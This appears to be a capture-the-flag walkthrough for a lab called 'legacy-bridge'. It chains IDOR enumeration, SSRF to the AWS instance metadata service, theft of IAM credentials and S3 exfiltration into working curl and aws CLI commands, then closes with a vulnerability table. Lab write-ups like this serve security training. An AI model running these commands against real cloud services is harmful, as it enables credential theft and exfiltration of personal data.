

# legacy-bridge - Walkthrough

## Exploitation Route



## Summary

1. **Step 1 - IDOR Enumeration**: Enumerate all customer data using file_id parameter
2. **Step 2 - SSRF Role Name Extraction**: Force v1 API to access IMDS via source parameter
3. **Step 3 - IMDSv1 Credential Theft**: Steal AWS temporary credentials
4. **Step 4 - IAM Permission Check**: Verify permissions of stolen credentials
5. **Step 5 - S3 Data Exfiltration**: Download sensitive customer data

## Detailed Walkthrough

### Step 1: IDOR Enumeration

Set gateway URL as environment variable:

```bash
GW=http://<gateway-ip>
```

Verify API status:

```bash
curl -s $GW/api/v5/status
```

Enumerate customer data by changing file_id:

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1"
curl -s "$GW/api/v5/legacy/media-info?file_id=2"
curl -s "$GW/api/v5/legacy/media-info?file_id=3"
```

Look for in the response:
- `customer_name`: Customer name
- `application_id`: Application ID
- `internal_source`: v1 backend URL

---

### Step 2: SSRF Role Name Extraction

Get IAM role name from IMDS:

```bash
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Extract role name from `backend_response` field:
legacy-bridge-Shadow-API-Role-<SUFFIX>

---

### Step 3: IMDSv1 Credential Theft

Request temporary credentials using role name:

```bash
ROLE="legacy-bridge-Shadow-API-Role-<SUFFIX>"

curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
```

Extract from response:
- `AccessKeyId`
- `SecretAccessKey`
- `Token`
- `Expiration`

---

### Step 4: IAM Permission Check

Set environment variables:

```bash
export AWS_ACCESS_KEY_ID="<AccessKeyId>"
export AWS_SECRET_ACCESS_KEY="<SecretAccessKey>"
export AWS_SESSION_TOKEN="<Token>"
export AWS_DEFAULT_REGION="us-east-1"
```

Verify credentials:

```bash
aws sts get-caller-identity
```

List IAM policies:

```bash
aws iam list-role-policies --role-name legacy-bridge-Shadow-API-Role-<SUFFIX>
```

Get policy details:

```bash
aws iam get-role-policy --role-name legacy-bridge-Shadow-API-Role-<SUFFIX> --policy-name <policy-name>
```

Permissions found:
- s3:ListAllMyBuckets
- s3:GetBucketLocation
- s3:ListBucket (prime-pii-vault only)
- s3:GetObject (prime-pii-vault only)

---

### Step 5: S3 Data Exfiltration

List accessible S3 buckets:

```bash
aws s3 ls
```

Identify and explore target bucket:

```bash
BUCKET="<prime-pii-vault-XXXX>"

aws s3 ls s3://$BUCKET/
```

Explore directories:

```bash
aws s3 ls s3://$BUCKET/applications/
aws s3 ls s3://$BUCKET/confidential/
```

Download flag file:

```bash
aws s3 cp s3://$BUCKET/confidential/breach_notice.txt -
```

Output contains the flag.

---

## Key Vulnerabilities

| Step | Vulnerability | Description |
|------|----------------|-------------|
| 1 | IDOR | No access control - all customer data exposed |
| 2 | SSRF | No URL filtering - arbitrary URL access |
| 3 | IMDSv1 | No token validation - metadata accessible |
| 4 | Over-permissive IAM | Shadow-API-Role has full bucket read access |
| 5 | No monitoring | Anomalous access undetected |